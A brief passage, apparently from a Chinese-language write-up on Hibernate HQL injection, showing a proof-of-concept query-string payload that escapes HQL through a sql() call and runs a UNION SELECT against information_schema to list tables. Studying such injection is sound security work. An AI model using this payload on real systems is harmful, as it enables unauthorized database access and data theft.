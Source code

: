 ![img](resource/Hibernate-HQL注入.assets/20240826193545-555e180e-639f-1.png)

既然是以字符串拼接的方式进行解析，那就能构造出poc进行利用

```
?name=mysql&#39; and sql(&#39;1=2 union select table_name,table_schema from information_schema.tables#&#39;)=&#39;1
```

![img](resource/Hibernate-HQL注入.assets/20240826193559-5df24882-639f-1.png)

下面是最终解析完的sql语句，成功逃逸
